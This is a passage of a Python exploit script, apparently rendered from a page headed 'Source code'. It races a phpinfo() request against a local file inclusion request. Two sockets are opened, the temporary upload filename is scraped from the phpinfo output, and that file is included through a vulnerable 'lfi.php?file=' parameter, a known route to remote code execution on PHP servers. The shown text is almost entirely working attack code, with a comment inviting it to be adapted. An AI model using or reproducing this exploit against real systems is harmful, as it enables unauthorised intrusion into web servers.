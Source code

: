 ```python
    #modify this to suit the LFI script   
    LFIREQ="""GET /06/lfi.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)
 
def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 
    s.connect((host, port))
    s2.connect((host, port))
 
    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")
        fn = d[i+17:i+31]
    except ValueError:
        return None
 
    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()
 
    if d.find(tag) != -1:
        return fn
 
counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
